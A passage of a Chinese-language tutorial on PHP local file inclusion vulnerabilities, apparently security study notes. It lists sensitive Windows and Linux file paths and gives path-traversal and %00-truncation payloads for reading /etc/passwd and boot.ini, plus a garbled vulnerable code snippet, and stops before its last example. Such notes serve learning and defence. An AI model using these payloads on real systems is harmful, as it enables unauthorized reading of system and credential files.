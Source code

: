 # 文件包含漏洞简介
文件包含函数[PHP文件包含常见函数](PHP文件包含常见函数.md)的参数如果没有经过过滤或者严格的定义，并且参数可以被用户控制，这样就可能包含非预期文件。如果文件中存在恶意代码，无论文件是什么类型，文件内的恶意代码都会被解析并执行。


# 无限制的本地文件包含

Windows系统常见敏感文件路径：
```
c:\boot.ini			系统版本信息
c:\xxx\php.ini		PHP配置信息
c:\xxx\my.ini		MySQL配置信息
c:\xxx\httpd.conf	Apache配置信息
```
Linux系统常见敏感文件路径：
```
/etc/passwd					Linux系统账号信息
/etc/shadow					Linux 系统中用户的密码信息
/etc/httpd/conf/httpd.conf	Apache配置信息
/etc/my.conf				MySQL配置信息
/usr/etc/php.ini			PHP配置信息
```
示例：

``FI.php?file=../../../../../../../../../etc/passwd``

# 有限制的本地文件包含

## %00截断
利用条件：
1. magic_quotes_gpc=off;
2. PHP版本低于5.3.4.

示例：

``FI.php?file=../../../../../../../../../../../../boot.ini%00``

## 路径长度截断
利用条件：
1. Windows下目录的最大路径长度为256B；
2. Linux下目录的最大路径长度为4096B；

代码示例：
```
<?PHP 
	&filename=&_GET['filename'];
	include(filename."html");
?>
```
playload示例：
